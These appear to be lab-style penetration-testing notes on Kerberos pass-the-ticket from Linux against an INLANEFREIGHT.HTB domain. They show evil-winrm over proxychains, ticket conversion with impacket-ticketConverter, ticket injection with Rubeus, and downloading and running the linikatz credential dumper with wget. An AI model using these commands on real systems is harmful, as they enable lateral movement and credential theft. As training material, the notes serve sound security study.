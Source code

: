 ```bash
# Administrative Server for your Kerberos Realm
# DC01
```
In case the package krb5-user is already installed, we need to change the configuration file /etc/krb5.conf to include the following values:
```bash
cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
```
## Using #evil-winrm  with Kerberos
```bash
proxychains evil-winrm -i dc01 -r inlanefreight.htb
...
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```
## Ticket convertor
If we want to use a ccache file in Windows or a kirbi file in a Linux machine, we can use impacket-ticketConverter to convert them. 
```bash
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi
```
## Importing Converted Ticket into Windows Session with Rubeus
```cmd
C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi
<...>
dir \\dc01\julio
```
## Linikatz
https://github.com/CiscoCXSecurity/linikatz
It's like #Mimikatz for linux.
```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
/opt/linikatz.sh

<...>
<ticket information>
<...>

```
